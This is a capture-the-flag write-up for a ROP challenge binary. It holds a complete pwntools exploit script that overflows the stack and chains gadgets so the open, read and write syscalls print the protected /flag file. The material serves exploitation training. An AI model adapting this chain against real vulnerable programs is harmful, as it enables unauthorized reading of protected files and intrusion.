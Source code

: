 Here, we don't get a stack leak; so try to find a helpful string in the binary itself:

```shell
strings -t x /challenge/babyrop_level5.0
```

No luck there. But.. we can *insert* a string in the **.bss** section!

- `objdump -s -j .bss /challenge/babyrop_level5.0` -> get address of .bss section
- ROPgadget -> get addresses of gadgets
- GDB -> get offset

```python
from pwn import *

p = process('/challenge/babyrop_level5.0')

offset = 0x48
pop_rdi = 0x401dc8 # pop rdi; ret
pop_rsi = 0x401dd0 # pop rsi; ret
pop_rdx = 0x401dc0 # pop rdx; ret
pop_rax = 0x401da0 # pop rax; ret
syscall = 0x401db0
bssaddr = 0x405090

flag_path = b'/flag\x00'
buffer = bssaddr + len(flag_path) + 1
size = 75

payload = b'A'*offset

# read(0, bssaddr, len(flag_path))
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi) + p64(bssaddr)
payload += p64(pop_rdx) + p64(len(flag_path))
payload += p64(pop_rax) + p64(0)
payload += p64(syscall)

# open("/flag", O_RDONLY)
payload += p64(pop_rdi) + p64(bssaddr)
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(2)
payload += p64(syscall)

# read(3, buffer, size)
payload += p64(pop_rdi) + p64(3)
payload += p64(pop_rsi) + p64(buffer)
payload += p64(pop_rdx) + p64(size)
payload += p64(pop_rax) + p64(0)
payload += p64(syscall)  

# write(1, buffer, size)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi) + p64(buffer)
payload += p64(pop_rdx) + p64(size)
payload += p64(pop_rax) + p64(1)
payload += p64(syscall)

p.sendline(payload)
p.sendline(flag_path)
p.interactive()
```
